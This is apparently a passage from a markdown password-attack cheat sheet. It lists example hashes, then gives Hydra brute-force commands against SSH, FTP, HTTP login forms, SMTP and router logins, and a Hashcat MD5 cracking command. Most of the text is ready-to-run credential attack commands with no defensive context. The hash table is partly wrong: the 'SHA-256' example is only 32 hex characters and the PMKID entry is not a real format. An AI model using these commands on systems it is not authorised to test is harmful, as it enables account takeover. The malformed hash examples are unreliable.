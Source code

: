 ### Common Hash Types
| Hash Type    | Example                              |
| ------------ | ------------------------------------ |
| MD5          | `5d41402abc4b2a76b9719d911017c592` |
| SHA-1        | `2aae6c35c94fcfb415dbe95f408b9ce91ee846ed` |
| SHA-256      | `9b74c9897bac770ffc029102a200c5de` |
| NTLM         | `8846f7eaee8fb117ad06bdd830b7586c` |
| WPA2 (PMKID) | `01a63e2fd3b4f5d4e3df0c4e6f22f8e3` |

## Brute Forcing with Hydra

### SSH
```bash
hydra -l root -P /path/to/wordlist.txt ssh://<target_ip>
```

### FTP
```bash
hydra -l anonymous -P /path/to/wordlist.txt ftp://<target_ip>
```

### HTTP Forms
```bash
hydra -l admin -P /path/to/wordlist.txt <target_ip> http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
```

### SMTP
```bash
hydra -l admin -P /path/to/wordlist.txt smtp://<target_ip>
```

### Router Login
```bash
hydra -l admin -P /path/to/wordlist.txt http-get://<router_ip>
```

## Cracking Hashes with Hashcat

### MD5
Example hash in `hash.txt`:
```plaintext
5d41402abc4b2a76b9719d911017c592
```
Command:
```bash
hashcat -m 0 -a 0 hash.txt /path/to/wordlist.txt
```
